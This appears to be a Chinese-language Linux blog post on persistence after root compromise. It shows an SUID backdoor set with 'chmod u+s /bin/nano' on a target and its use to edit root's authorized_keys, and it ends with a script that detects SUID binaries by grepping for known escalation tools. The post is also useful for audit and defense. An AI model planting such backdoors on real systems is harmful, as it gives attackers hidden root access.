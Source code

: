 ```yaml
---
title: 权限管理二：如何通过setuid设置root后门
categories:
- linux
tags:
- linux
---
```

上一篇：[权限管理](https://whale3070.github.io/linux/2016/03/03/%E6%9D%83%E9%99%90%E7%AE%A1%E7%90%86/)

参考资料：
https://gist.github.com/dergachev/7916152 、https://pentestlab.blog/tag/find/

## 为什么你不能做到，在一个已经被渗透的机器上禁止提权？

假设某人临时获得了root权限访问了你的系统，即使你禁止了提权的方式，他们仍然
有数不清的方式在以后重新访问你的系统。

简单提一下一些明显的方法：
- 添加/root/.ssh/authorized_keys
- 添加新用户
- 运行恶意软件
- 使用cron job定时任务

使用setuid可以使得任何用户运行root权限，而且你甚至不知道系统是否被入侵过。

案例：nano
```
ssh root@target

whoami                 #    root
ls -al /bin/nano       #    -rwxr-xr-x 1 root root 191976 2010-02-01 20:30 /bin/nano

chmod u+s /bin/nano    # installs the backdoor

```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-24/4.PNG)

一旦nano 后门被设置，之后hacker可以用非root用户获取到root权限。

例如：`nano /root/.ssh/authorized_keys `

- 一旦系统被黑，特别是获取到root权限，你就再也不能信任它了。你必须找到源头漏洞在哪里，
然后用一个干净的系统重置，并且打上补丁。

- 通常，你不能允许任何不信任的组织使用shell连入系统，因为你可能对linux漏洞的知识不精通。

## 检查suid的bash script
```
#!/bin/bash
cd /tmp
find / -perm -4000 2>/dev/null > examSUID.txt
cat examSUID.txt | grep -E "nmap|vim|find|bash|more|less|nano|cp"
rm /tmp/examSUID.txt
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-24/5.PNG)
